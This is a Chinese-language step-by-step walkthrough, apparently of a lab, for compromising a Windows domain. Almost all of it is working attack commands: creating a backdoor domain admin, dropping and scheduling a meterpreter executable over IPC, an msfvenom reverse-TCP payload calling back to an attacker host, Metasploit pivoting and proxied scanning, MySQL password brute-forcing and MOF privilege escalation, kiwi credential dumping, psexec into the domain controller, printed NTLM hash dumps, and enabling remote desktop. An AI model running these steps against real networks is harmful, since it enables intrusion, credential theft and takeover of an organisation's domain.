

拓扑图：

域的简介

[https://baike.baidu.com/item/windows%E5%9F%9F/1492318](https://baike.baidu.com/item/windows域/1492318)

常用的域命令 

 查看当前网卡配置信息,包括所属域以及IP段

```
ipconfig /all
```

 查看域

```
net view /domain
```

查看当前域中的计算机

```
net view
```

查看CORP域中的计算机

```
net view /domain:CORP
```

Ping计算机名可以得到IP

```
ping Wangsong-PC
```

获取所有域的用户列表

```
net user /domain
```

 获取域用户组信息

```
net group /domain
```

 获取当前域管理员信息

```
net group "domain admins" /domain
```

 查看域时间及域服务器的名字

```
net time /domain
```

 这个要域管理权限才可以的

 添加普通域用户

```
net user hack hack /add /domain
```

 将普通域用户提升为域管理员

```
net group "Domain Admins" hack /add /domain
```

建立ipc连接 运行exe文件

```
net use \\10.10.1.2\ipc$ "xxx$112233A." /user:moonsec\Administrator
net use \\ip\c$
```

Copy sd.exe \\ip\c$ (其中sd.exe是VEIL生成的meterpreter)

```
net time \\ip
at \\10.10.1.2 18.32 c:\ss.exe
```


metasploit 生成攻击载荷

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

本地监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

提升权限

```bash
getprivs
getsystem
```

域 wzxmt.com



 增加路由

```bash
run autoroute -s 10.10.1.0/24
```

 检测存活IP

```bash
run post/windows/gather/arp_scanner RHOSTS=10.10.1.0/24
run post/multi/gather/ping_sweep RHOSTS=10.10.1.0/24
```


后台运行

```bash
background
```

端口扫描

```bash
use scanner/portscan/tcp
set rhosts 10.10.1.3
exploit
```

socket代理 用namp 扫描内网的ip的服务(**注意需要先添加路由**)

```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION   4a
run
```

修改/etc/prxoychains.conf

```bash
socks4  127.0.0.1 1080
```

扫描10.10.1.4的服务器端口

```bash
proxychains nmap -sT -Pn 10.10.1.3 --open -oN 10.10.10.0.txt
```

通过扫描得到3306端口存在mysql服务

mysql登录密码破解

```bash
use scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /root/passlist.txt
set RHOSTS 10.10.1.3
exploit
```

mysql_mof攻击提权

```bash
use windows/mysql/mysql_mof
set payload windows/meterpreter/bind_tcp
set PASSWORD zkeys
set rhost 10.10.1.3
set USERNAME root
exploit
```

 通过mysql mof提权得到域客户端2003的sessions 

 WIN-723O786H6KU.moonsec.com 10.10.1.2 这个就是域控

域客户端2003 hash数据

```bash
Administrator:500:7473799d16fd7eefc81667e9d738c5d9:befccf58421ac6b3b2815de02cac1616:::
ASPNET:1006:80b60fc868a0cbc3bd0107c50c110a28:e04a5c063acf0ac96c00809a3ea194cf:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_WWW-7D165A978F4:1000:23a1de9066032b6646bb5d5cc9f4c859:c53193935ad813f22fc1356905671c62:::
```

 因为普通域用户 需要更改系统信息 都需要通过域管理员的操作，要输入帐号和密码

密码收集（kiwi）

加载kiwi模块(需要SYSTEM权限)

```bash
load kiwi  
```

查看kiwi模块的使用

```bash
help kiwi
```

查看明文

```
creds_all
```

列举所有msv凭据

```
 creds_msv
```

列举所有kerberos凭据

```
creds_kerberos
```

 现在想要获取域控sessions 

```bash
use exploit/windows/smb/psexec
set RHOST 10.10.1.2
set SMBDomain moonsec
set SMBUser administrator
set SMBPass xxx123456..
set payload windows/meterpreter/bind_tcp
exploit
```

获取hash

```
run post/windows/gather/hashdump
```

hash

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f8db9dd8aa13fa4e008f693fb7c56935:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

开启域控3389

```bash
run getgui  -e
```

 得到域控的权限
